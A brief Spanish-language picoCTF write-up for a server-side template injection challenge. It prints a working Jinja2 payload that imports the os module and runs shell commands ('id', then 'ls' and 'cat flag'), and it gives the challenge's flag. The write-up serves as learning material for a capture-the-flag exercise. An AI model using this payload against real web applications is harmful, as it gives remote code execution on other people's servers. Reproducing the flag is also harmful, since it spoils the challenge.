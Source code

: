 Descripción
¡Hice un sitio web genial donde puedes anunciar lo que quieras! ¡Pruébalo!

Los detalles adicionales estarán disponibles después de lanzar su instancia de desafío.

Hints:
1.⁠ ⁠Inyección de plantilla del lado del servidor

Solución 1

Con RCE

INvestigando encontre este codigo que   ejecuta un **comando del sistema (`id`) desde una plantilla** (probablemente Jinja2) mediante **inyección de código en el servidor** (RCE).
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

dando un ls cambiando por el id me muestra que hay una flag y con cat flag despliego la bandera


picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}


Notas adicionales

--------------------


Referencias

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
http://rescued-float.picoctf.net:57338